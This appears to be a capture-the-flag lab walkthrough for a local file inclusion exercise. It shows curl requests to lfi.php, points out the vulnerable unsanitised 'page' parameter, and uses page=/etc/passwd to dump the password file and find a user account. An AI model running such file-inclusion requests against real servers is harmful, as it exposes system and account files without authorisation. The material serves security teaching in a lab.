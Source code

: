 To access the first walkthrough, use `curl http://<ip>/lfi/lfi.php`.
A response will be obtained as,
{% capture code %}{% raw %}File included: <br><br><br>
Local file to be used: <br><br>{% endraw %}{% endcapture %} {% include code.html code=code %}

Check adding parameter `?page=`, use `curl http://<ip>/lfi/lfi.php?page=`.
The response will be same.
{% capture code %}{% raw %}File included: <br><br><br>
Local file to be used: <br><br>{% endraw %}{% endcapture %} {% include code.html code=code %}

Adding value to parameter `?page=home.html` gives intended result. Use `curl http://<ip>/lfi/lfi.php?page=home.html`,
{% capture code %}{% raw %}File included: home.html<br><br><br>
Local file to be used: home.html<br><br>
<h1>You included home.html</h1><br>{% endraw %}{% endcapture %} {% include code.html code=code %}

There is a vulnerable code `$local_file = $_REQUEST["page"];` in lfi.php which allows file contents to be displayed.
To display contents of `/etc/passwd` file, use `curl "http://<ip>/lfi/lfi.php?page=/etc/passwd"`,

An output similar to below will be obtained. Analyze to get non-system user.
{% capture code %}{% raw %}File included: /etc/passwd<br><br><br>
Local file to be used: /etc/passwd<br><br>
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nol
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/b
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
lightdm:x:108:114:Light Display Manager:/var/lib/lightdm:/bin/false
whoopsie:x:109:117::/nonexistent:/bin/false
avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/fa
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/bin/false
colord:x:113:123:colord colour management daemon,,,:/var/lib/colord:/bin/fals
speech-dispatcher:x:114:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/b
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false
pulse:x:117:124:PulseAudio daemon,,,:/var/run/pulse:/bin/false
rtkit:x:118:126:RealtimeKit,,,:/proc:/bin/false
saned:x:119:127::/var/lib/saned:/bin/false
usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
lfi:x:1000:1000:THM,,,:/home/lfi:/bin/bash{% endraw %}{% endcapture %} {% include code.html code=code %}
